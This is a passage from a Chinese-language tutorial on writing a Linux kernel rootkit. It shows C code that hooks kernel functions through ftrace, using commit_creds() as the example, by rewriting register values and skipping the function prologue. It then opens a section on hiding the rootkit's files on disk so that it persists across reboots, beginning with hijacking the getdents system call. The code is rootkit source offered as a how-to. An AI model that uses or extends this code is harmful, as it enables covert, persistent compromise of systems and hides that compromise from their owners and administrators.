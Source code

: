 ```
 
    err = unregister_ftrace_function(hook_ops);
    if (err) {
        logger_error("failed to unregister ftrace.");
        goto out;
    }
 
    err = ftrace_set_filter_ip(hook_ops, (unsigned long) hook_dst, 1, 0);
    if (err) {
        logger_error("failed to rmove ftrace point.");
        goto out;
    }
 
out:
    return err;
}
```

这里我们还是以 `commit_cred()` 作为范例进行测试，在我们自定义的 `hook` 点当中我们可以通过 `fregs` 参数直接改变任一寄存器的值，由于 ftrace 的 hook 点位于函数开头，尚未开辟该函数的栈空间，这里我们可以选择将 `rip` 直接改为一条 `ret` 指令从而使其直接返回，之后我们再在 hook 函数中重新调用原函数的功能部分即可，这里需要注意的是要跳过开头的 `endbr64` + `call` 两条指令总计 9 字节：

```
__attribute__((naked)) void ret_fn(void)
{
    asm volatile (" ret; ");
}
 
void test_hook_fn(unsigned long ip, unsigned long pip,
                    struct ftrace_ops *ops, struct ftrace_regs *fregs)
{
    size_t (*orig_commit_creds)(size_t) = \
                                (size_t(*)(size_t))((size_t) commit_creds + 9);
 
    printk(KERN_ERR "[test hook] bbbbbbbbbbbbbbbbbbbbbbbbbbbb");
 
    fregs->regs.ax = orig_commit_creds(fregs->regs.di);
    fregs->regs.ip = ret_fn;
 
    return ;
}
```

0x03. 文件隐藏
==========

我们的 rootkit 既然要长久驻留在系统上，那么在系统每一次开机时都应当载入我们的 rootkit，这就要求**我们的 rootkit 文件还需要保留在硬盘上**，同时我们有的时候也需要启动一些用户态进程来帮助我们完成一些任务，**用户态进程的二进制文件也需要我们进行隐藏**，除此之外我们可能也想要隐藏一些日志文件...

因此接下来我们还要完成相关文件的隐藏的工作

> 注：本节需要你提前对 VFS 有着一定的了解：）

一、劫持 getdents 系统调用核心函数
----------------------
